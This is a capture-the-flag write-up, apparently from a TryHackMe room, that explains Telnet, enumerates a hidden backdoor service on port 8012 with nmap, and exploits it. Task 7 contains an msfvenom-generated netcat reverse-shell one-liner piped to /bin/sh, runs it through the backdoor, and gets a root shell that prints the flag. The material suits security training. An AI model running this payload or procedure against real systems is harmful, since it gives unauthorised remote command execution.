

# [Task 5] Understanding Telnet

**What is Telnet?**

Telnet is an application protocol which allows you, with the use of a telnet client, to connect to and execute commands on a remote machine that's hosting a telnet server.

The telnet client will establish a connection with the server. The client will then become a virtual terminal- allowing you to interact with the remote host.

**Replacement**

Telnet sends all messages in clear text and has no specific security mechanisms. Thus, in many applications and services, Telnet has been replaced by SSH in most implementations.

**How does Telnet work?**

The user connects to the server by using the Telnet protocol, which means entering "telnet" into a command prompt. The user then executes commands on the server by using specific Telnet commands in the Telnet prompt. You can connect to a telnet server with the following syntax: `telnet [ip] [port]`

## #5.1 - What is Telnet?    

Answer: `application protocol`

## #5.2 - What has slowly replaced Telnet?    

Answer: `ssh`

## #5.3 - How would you connect to a Telnet server with the IP 10.10.10.3 on port 23?

Answer: `telnet 10.10.10.3 23`

## #5.4 - The lack of what, means that all Telnet communication is in plaintext?

*Hint: What does the modern internet use to communicate securely?*

Answer: `encryption`

# [Task 6] Enumerating Telnet

**Lets Get Started**

Before we begin, make sure to deploy the room and give it some time to boot. Please be aware, this can take up to five minutes so be patient!

**Enumeration**

We've already seen how key enumeration can be in exploiting a misconfigured network service. However, vulnerabilities that could be potentially trivial to exploit don't always jump out at us. For that reason, especially when it comes to enumerating network services, we need to be thorough in our method. 

**Port Scanning**

Let's start out the same way we usually do, a port scan, to find out as much information as we can about the services, applications, structure and operating system of the target machine. Scan the machine with nmap and the tag `-A` and `-p-`.

Tag
* `-A`: Enables OS Detection, Version Detection, Script Scanning and Traceroute all in one
* `-p-`: Enables scanning across all ports, not just the top 1000

**Output**

Let's see what's going on on the target server...

## #6.1 - How many ports are open on the target machine?    

Let's start by scanning the machine with Nmap:

~~~
8012/tcp open  unknown
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NCP, NULL, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, X11Probe: 
|_    SKIDY'S BACKDOOR. Type .HELP to view commands
~~~

There is only 1 open port.

Answer: `1`

## #6.2 - What port is this?

Answer: `8012`

## #6.3 - This port is unassigned, but still lists the protocol it's using, what protocol is this?

Answer: `tcp`

## #6.4 - Now re-run the nmap scan, without the -p- tag, how many ports show up as open?

Without the `-p-` flag, Nmap detects no open ports.

Answer: `0`

## #6.5

**Here, we see that by assigning telnet to a non-standard port, it is not part of the common ports list, or top 1000 ports, that nmap scans. It's important to try every angle when enumerating, as the information you gather here will inform your exploitation stage.**

No answer here

## #6.6 - Based on the title returned to us, what do we think this port could be used for?

Answer: `a backdoor`

## #6.7 - Who could it belong to? Gathering possible usernames is an important step in enumeration.

The nmap scan reports it as `SKIDY`

## #6.8 - Always keep a note of information you find during your enumeration stage, so you can refer back to it when you move on to try exploits.

# [Task 7] Exploiting Telnet

**Types of Telnet Exploit**

Telnet, being a protocol, is in and of itself insecure for the reasons we talked about earlier. It lacks encryption, so sends all communication over plaintext, and for the most part has poor access control. There are CVE's for Telnet client and server systems, however, so when exploiting you can check for those on:

* https://www.cvedetails.com/
* https://cve.mitre.org/

A CVE, short for Common Vulnerabilities and Exposures, is a list of publicly disclosed computer security flaws. When someone refers to a CVE, they usually mean the CVE ID number assigned to a security flaw.

However, you're far more likely to find a misconfiguration in how telnet has been configured or is operating that will allow you to exploit it.

**Method Breakdown**

So, from our enumeration stage, we know:
* There is a poorly hidden telnet service running on this machine
* The service itself is marked "backdoor"
* We have possible username of "Skidy" implicated

Using this information, let's try accessing this telnet port, and using that as a foothold to get a full reverse shell on the machine!

**Connecting to Telnet**

You can connect to a telnet server with the following syntax: `telnet [ip] [port]`

We're going to need to keep this in mind as we try and exploit this machine.

**What is a Reverse Shell?**

A "shell" can simply be described as a piece of code or program which can be used to gain code or command execution on a device.

A reverse shell is a type of shell in which the target machine communicates back to the attacking machine.

The attacking machine has a listening port, on which it receives the connection, resulting in code or command execution being achieved.

## #7.1 - Okay, let's try and connect to this telnet port! If you get stuck, have a look at the syntax for connecting outlined above.

No answer here.

## #7.2 - Great! It's an open telnet connection! What welcome message do we receive?

*Hint: Remember, telnet is not running on its default port. Use your answer from task 6, question 2.*

When we connect to the backdoor using telnet, here is what we get:

~~~
$ telnet 10.10.242.25 8012
Trying 10.10.242.25...
Connected to 10.10.242.25.
Escape character is '^]'.
SKIDY'S BACKDOOR. Type .HELP to view commands
.HELP
.HELP: View commands
 .RUN <command>: Execute commands
.EXIT: Exit
~~~

The welcome message is `SKIDY'S BACKDOOR.`

## #7.3 - Let's try executing some commands, do we get a return on any input we enter into the telnet session? (Y/N)

Trying to execute commands seems to fail as we have no return:

~~~
.RUN ls

~~~

Answer: `N`

## #7.4 - Hmm... that's strange. Let's check to see if what we're typing is being executed as a system command.

No answer here

## #7.5 - Start a tcpdump listener on your local machine using: `sudo tcpdump ip proto \\icmp -i tun0` This starts a tcpdump listener, specifically listening for ICMP traffic, which pings operate on.

On the backdoor:

~~~
SKIDY'S BACKDOOR. Type .HELP to view commands
.RUN ping -c1 10.9.0.54
~~~

On our machine:

~~~
$ sudo tcpdump ip proto \\icmp -i tun0
dropped privs to tcpdump
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
08:07:33.334986 IP 10.10.204.52 > localhost.localdomain: ICMP echo request, id 1026, seq 1, length 64
08:07:33.335035 IP localhost.localdomain > 10.10.204.52: ICMP echo reply, id 1026, seq 1, length 64
~~~

## #7.6 - Now, use the command "ping [local tun0 ip] -c 1" through the telnet session to see if we're able to execute system commands. Do we receive any pings? Note, you need to preface this with .RUN (Y/N)

As we see in the above tcpdump output, we receive the ping request from the backdoor.

Answer: `Y`

## #7.7 - Great! This means that we are able to execute system commands AND that we are able to reach our local machine. Now let's have some fun!

## #7.8

**We're going to generate a reverse shell payload using msfvenom. This will generate and encode a netcat reverse shell for us. Here's our syntax: `msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R`**

* **`-p` = payload**
* **`lhost` = our local host IP address**
* **`lport` = the port to listen on**
* **`R` = export the payload in raw format**

**What word does the generated payload start with?**

~~~
$ msfvenom -p cmd/unix/reverse_netcat lhost=10.9.0.54 lport=4444 R
[-] No platform was selected, choosing Msf::Module::Platform::Unix from the payload
[-] No arch selected, selecting arch: cmd from the payload
No encoder specified, outputting raw payload
Payload size: 91 bytes
mkfifo /tmp/wqivu; nc 10.9.0.54 4444 0</tmp/wqivu | /bin/sh >/tmp/wqivu 2>&1; rm /tmp/wqivu
~~~

The resulting command starts with `mkfifo`

## #7.9

**Perfect. We're nearly there. Now all we need to do is start a netcat listener on our local machine. We do this using: `nc -lvp [listening port]`**

**What would the command look like for the listening port we selected in our payload?**

Answer: `nc -lvp 4444`

## #7.10 - Great! Now that's running, we need to copy and paste our msfvenom payload into the telnet session and run it as a command. Hopefully- this will give us a shell on the target machine!

Now, let's start our listener:

~~~
$ rlwrap nc -nlvp 4444
~~~

On the remote host:

~~~
.RUN mkfifo /tmp/wqivu; nc 10.9.0.54 4444 0</tmp/wqivu | /bin/sh >/tmp/wqivu 2>&1; rm /tmp/wqivu 
~~~

## #7.11 - Success! What is the contents of flag.txt?

~~~
$ rlwrap nc -nlvp 4444
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.10.204.52.
Ncat: Connection from 10.10.204.52:39938.
pwd
/root
ls -l
total 4
-rw-r--r-- 1 root root 29 Apr 20 14:36 flag.txt
cat flag.txt
THM{y0u_g0t_th3_t3ln3t_fl4g}
~~~